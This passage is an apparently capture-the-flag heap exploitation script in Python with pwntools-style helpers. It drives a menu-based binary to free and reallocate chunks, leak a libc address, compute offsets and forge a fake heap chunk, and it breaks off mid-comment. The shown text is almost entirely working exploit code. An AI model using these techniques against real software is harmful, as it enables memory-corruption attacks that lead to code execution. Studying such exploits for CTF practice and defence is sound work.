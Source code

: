 ```python
sla = lambda a, b: cn.sendlineafter(a, b)
sa  = lambda a, b: cn.sendafter(a,  b)
ru  = lambda a: cn.recvuntil(a)
re = lambda a: cn.recv(a)

def add(size, flag='n', con='a'):
	sla(">", '1')
	sla("? >", str(size))
	sla("? >", flag)
	sla("sleeve >", con)

def edit(idx, con):
	sla(">", '3')
	sla("? >", str(idx))
	sl(con)

def show(idx):
	sla(">", '4')
	sla("? >", str(idx))

def dele(idx):
	sla(">", '2')
	sla("? >", str(idx))

def exp():
	add(0x20)	# 0
	add(0x20)	# 1
	add(0x20)	# 2
	add(0x20)	# 3

	'''
	heap:
		0x40: chunk0
		0x40: chunk1
		0x40: chunk2
		0x40: chunk3
	'''

	dele(0)
	dele(1)
	add(1, 'n', '\x50')	# 0
	show(0)
	leak = u64(re(6).ljust(8, b'\x00'))
	libc = leak - 0x292e50 + 0x300
	environ = libc + 0x294fd8
	chunk_list = libc + 0x290000

	dele(0)

	'''
	heap:
		0x40: chunk0
		0x40: chunk1
		0x40: chunk2
		0x40: chunk3
		topchunk
	'''

	fake_chunk = flat(0x1, 0x70, chunk_list+0x8, chunk_list+0x8).ljust(0x70, b'\x00')
	add(0x70, 'Y', flat(fake_chunk, 0x70, 0x41)) # 0
	'''
	heap:
		0x80: 
```